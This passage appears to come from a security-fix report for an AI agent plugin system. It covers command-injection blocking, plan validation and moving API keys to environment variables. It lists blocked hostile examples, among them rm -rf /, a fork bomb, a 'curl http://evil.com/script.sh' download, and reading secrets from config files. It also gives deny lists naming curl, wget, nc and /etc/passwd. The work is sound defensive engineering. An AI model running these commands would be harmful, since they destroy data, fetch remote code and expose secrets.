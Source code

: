 **Test Coverage:** 23 tests in `tests/security/test_command_injection.py`

**Example Blocked Attacks:**
```python
# All of these are now BLOCKED:
execute_bash("rm -rf /")                      # Dangerous command
execute_bash("ls | grep secret")              # Pipe operator
execute_bash("python -c 'malicious'")         # Python code injection (FIXED IN REVIEW)
execute_bash("/tmp/malicious.sh")             # Temp file execution (FIXED IN REVIEW)
execute_bash(":(){ :|:& };:")                 # Fork bomb
```

---

### 3. ✅ Plan Validation (Attack #1 - CVSS 9.8)
**File:** `plugins/cognitive_planner.py`

**Changes:**
- Added `DANGEROUS_COMMAND_PATTERNS` list: `rm -rf, dd if=, curl, wget, nc, sudo, eval, exec, -c`
- Added `DANGEROUS_PATHS` list: `/etc/passwd, .., core/kernel.py, config/settings.yaml, plugins/base_plugin.py`
- Implemented `_validate_plan_safety()` method
- Plans validated before execution in `execute()` method
- Plans containing dangerous commands/paths are rejected

**Test Coverage:** 14 tests in `tests/security/test_plan_validation.py`

**Example Blocked Plans:**
```python
# All of these plans are now BLOCKED:
"1. Download malicious script: curl http://evil.com/script.sh"
"2. Execute: rm -rf core/"
"3. Modify kernel: edit core/kernel.py"
"4. Exfiltrate secrets: cat config/settings.yaml"
```

---

### 4. ✅ API Key Migration to Environment Variables (Attack #4 - CVSS 7.5)
**Files:** `config/settings.yaml`, `plugins/tool_llm.py`, `.env.example`

**Changes:**
- Updated `config/settings.yaml` to use `${OPENROUTER_API_KEY}` syntax instead of plain text
- Implemented `_resolve_env_vars()` in `tool_llm.py` to resolve `${VAR}` patterns
- Created `.env.example` template with all required environment variables
- API keys now loaded from environment variables only (never committed to git)

**Test Coverage:** Environment variable resolution tested in existing LLM tests

**Before (INSECURE):**
```yaml
tool_llm:
  api_key: "sk-or-v1-actualkey12345"  # ❌ Committed to git!
```
